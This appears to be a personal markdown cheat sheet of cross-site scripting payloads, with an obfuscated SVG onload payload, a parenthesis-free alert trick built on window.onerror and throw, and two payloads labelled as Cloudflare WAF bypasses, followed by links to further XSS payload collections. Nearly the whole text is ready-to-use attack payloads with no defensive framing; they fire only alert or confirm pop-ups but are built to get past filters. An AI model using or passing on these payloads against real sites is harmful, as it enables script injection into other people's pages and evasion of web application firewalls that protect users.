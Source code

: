 
![[Pasted image 20241018173908.png]]

```
<sVg/onfake="x=y"oNload=;1^(co\u006efirm)``^1//
```


> [!TIP]
```
alert() with no parenthesis, back ticks, brackets, quotes, braces, etc. by

[@stealthybugs](https://x.com/stealthybugs)

a=8,b=confirm,c=window,c.onerror=b;throw-a
```


# WAF Bypass

##### CLOUDFLARE
(https://x.com/XssPayloads/status/1465168176266846209)
```
<img/src=x onError="`${x}`;alert(`Ex.Mi`);">
```

```
onerror="x='ale';z='r';y='t';p='`XSS`';new constructor.constructor`zzz${`${x}${z}${y}${p}`}bbb`
```


[==UPPER CASE FILTER EXISTS?==](https://master-sec.medium.com/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)

["'()[]\%; FILTER EXISTS?](https://ibb.co/5krL3sv)







> [!IMPORTANT]
https://tinyxss.terjanq.me/
https://gbhackers.com/top-500-important-xss-cheat-sheet/
https://web.archive.org/web/20200831091720/https://ghostbin.co/paste/qo23j
https://x.com/xsspayloads